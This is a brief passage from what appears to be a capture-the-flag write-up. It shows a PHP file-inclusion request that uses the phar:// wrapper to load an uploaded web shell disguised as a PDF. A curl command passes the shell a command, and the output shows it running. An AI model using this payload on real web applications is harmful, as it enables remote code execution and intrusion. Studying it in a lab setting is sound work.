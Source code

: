 
    http://10.10.11.229/shop/index.php?page=phar:///var/www.md/uploads/ea409d50349a8436fe49f7ec66aa6132/shell.pdf/shell&cmd=id



And it runs the given command, `id`:



    oxdf@hacky$ curl 'http://10.10.11.229/shop/index.php?page=phar:///var/www.md/uploads/ea409d50349a8436fe49f7ec66aa6132/shell.pdf/shell&cmd=id'
    uid=1001(rektsu) gid=1001(rektsu) groups=1001(rektsu)



That's a super cool trick!





